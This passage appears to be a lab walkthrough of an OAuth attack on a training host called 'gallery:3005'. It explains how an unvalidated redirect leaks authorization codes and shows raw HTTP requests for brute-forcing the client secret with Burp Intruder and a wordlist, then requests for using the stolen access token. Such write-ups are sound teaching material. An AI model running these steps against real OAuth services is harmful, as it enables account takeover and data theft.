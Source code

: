 Upon logging in, there is a **consent screen**, which has to be accepted, just like a regular login via OAuth.

Then, the user is redirected to the **attacker** website with the  authorization code in the callback value. Any user that is sent the  above URL and will log in via it, will make a request to the attacker  website disclosing the authorization code.

The underlying vulnerability is an unvalidated redirection.

Task 2. Use the acquired code to bruteforce the client secret

Based on a sample Token request (https://auth0.com/docs/api-auth/tutorials/authorization-code-grant) you can construct the following POST request.
```
POST /token HTTP/1.1
Host: gallery:3005
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 137
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

redirect_uri=http%3A%2F%2Fgallery%3A3005%2Fcallback&grant_type=authorization_code&client_id=photoprint&client_secret=§guess§&code=44438Note: 
```

- Copy-pasting the above request may result in  formatting issues that will cause the HTTP request to be malformed. 
- The  best way to reproduce that request is to log in as described in the  manual (by obtaining the first code), capture the request using Burp and  send it to Repeater.
- Using Burp Intruder and a wordlist (we used Rockyou-10 available here) you can bruteforce the client secret.

After starting the attack, soon we realize that the client secret is **secret**.


In the Repeater window:  
```
POST /token HTTP/1.1
Host: gallery:3005
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 136
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
redirect_uri=http%3A%2F%2Fgallery%3A3005%2Fcallback&grant_type=authorization_code&client_id=photoprint&client_secret=secret&code=44438
Note: Specify the code that you received in the response.  
The response access token can now be supplied to the /photos/me?access_token= endpoint.
GET /photos/me?access_token=35580 HTTP/1.1
Host: gallery:3005
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
